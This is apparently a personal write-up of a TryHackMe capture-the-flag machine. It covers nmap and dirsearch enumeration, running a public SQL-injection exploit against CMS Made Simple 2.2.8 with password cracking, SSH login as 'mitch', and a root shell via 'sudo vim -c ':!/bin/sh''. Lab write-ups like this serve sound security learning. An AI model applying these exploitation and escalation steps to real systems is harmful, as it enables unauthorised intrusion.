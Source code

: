 We start the machine on `TryHackMe`.

# Nmap scan
First of all we need to execute a nmap scan:
```bash
nmap -A -T4 -p- IP_HOST
```
- ![[Pasted image 20250116160658.png]]
- ![[Pasted image 20250116160715.png]]


# FTP path
We can try to login as `anonymous` in the FTP service:
```bash
ftp HOST_IP

anonymous
```
- ![[Pasted image 20250116160842.png]]

So nothing to see in it.


# HTTP path
So we visit the webpage of the `IP`:
- ![[Pasted image 20250116160934.png]]

In `NMAP` we can see that there is the directory `/openmr-5_0_1_3` but it is not found:
- ![[Pasted image 20250116161017.png]]

## dirsearch

This tool can be found there:
- [https://github.com/maurosoria/dirsearch](https://github.com/maurosoria/dirsearch)


So we can use the command `dirsearch` in order to enumerate the files and pages on the http server:
```bash
python3 dirsearch.py -u http://IP -e php,html -x 400,401,403 
```
- ![[Pasted image 20250116161310.png]]



At this point we access to the folder `/simple` in order to see what it contains:
- ![[Pasted image 20250116161403.png]]

We can see that it uses `CMS` at version `2.2.8`:
- ![[Pasted image 20250116161436.png]]

So let's try to exploit it.


# Exploiting CMS 2.2.8
On google we search for `cms made simple 2.2.8 exploit` and we found a `sqli`
- ![[Pasted image 20250116161608.png]]



Now we need to run the exploit:
```bash
python 46635.py -u http://IP/simple --crack -w top100_list.txt
```
- `--crack` tries to crack the passwords found in it using a wordlist `-w`
- the wordlist can be found there [https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt)


The result of the exploit will be:
- ![[Pasted image 20250116161946.png]]
- it was not cracked because maybe the wordlist was small

We run with a longer wordlist and we get `secret` as password
- we can also find it searching on google


## ssh access
At this point we try to access with the found username `mitch` and the password `secret`
```bash
ssh mitch@IP -p 2222
```
- ![[Pasted image 20250116162251.png]]
- we are in


## priv escalation
At this point we run:
```bash
ls -la

cat .bash_history
```
- ![[Pasted image 20250116162401.png]]
- ![[Pasted image 20250116162413.png]]

But no credentials found.


So we try with `sudo` escalation:
```bash
sudo -l
```
- ![[Pasted image 20250116162503.png]]

So using `GTFOBins` we get the root shell:
```bash
sudo vim -c ':!/bin/sh'
```
- ![[Pasted image 20250116162550.png]]


<mark style="background: #BBFABBA6;">We gain the root!</mark>
